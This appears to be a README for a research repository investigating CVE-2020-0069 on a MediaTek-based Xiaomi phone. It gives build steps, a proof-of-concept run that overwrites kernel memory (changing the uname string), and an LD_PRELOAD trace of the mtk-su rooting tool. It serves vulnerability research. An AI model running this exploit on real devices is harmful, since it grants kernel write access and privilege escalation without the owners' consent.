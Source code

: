 # Description

This repository contains the materials we used to investigate CVE-2020-0069 on a Xiaomi Redmi 6a (with a Mediatek SoC MT6762M).

There are three programs:

 - ``kernel_rw.c`` a C program allowing to read/write kernel memory
 - ``poc.sh`` a shell script 
 - ``syscall_hook.c`` a C library that can be used to trace the program ``mtk-su`` (tested on version 19)

## Build

To build the binaries:

```
$ ndk-build
```

Then push them on the device:

```bash
$ adb push poc.sh /data/local/tmp
$ adb push libs/armeabi-v7a/kernel_rw /data/local/tmp
$ adb push libs/armeabi-v7a/libsyscall_hook.so /data/local/tmp
```

## Usage

### CVE-2020-0069 PoC

```bash
$ uname -a
Linux localhost 4.9.77+ #1 SMP PREEMPT Mon Jan 21 18:32:19 WIB 2019 armv7l
$ sh poc.sh
[+] Found Linux string at 0x4180bc00
[+] Found Linux string at 0x4180bea0
[+] Write the patched value
$ uname -a
minix  4.9.77+ #1 SMP PREEMPT Mon Jan 21 18:32:19 WIB 2019 armv7l
```

### To trace mtk-su

```bash
$ mkdir mtk-su
$ LD_PRELOAD=./syscall_hook.so ./mtk-su
alloc failed
alloc count=400 startPA=0x53df4000
uncatched ioctl 40e07803
exec command (num 0) ( blockSize=8040, readAddress.count=0 ) dumped into cmd-0
exec command (num 1) ( blockSize=3e0, readAddress.count=1e ) dumped into cmd-1
exec command (num 2) ( blockSize=3e0, readAddress.count=1e ) dumped into cmd-2
[...]
$ cat  mtksu/cmd-1
WFE to_wait=1, wait=1, to_update=1, update=0, event=1da
MOVE 40a68000 into reg 17
READ  address reg 17, data reg b
MOVE startPA+0 into reg 17
WRITE  address reg 17, data reg b
[...]
```
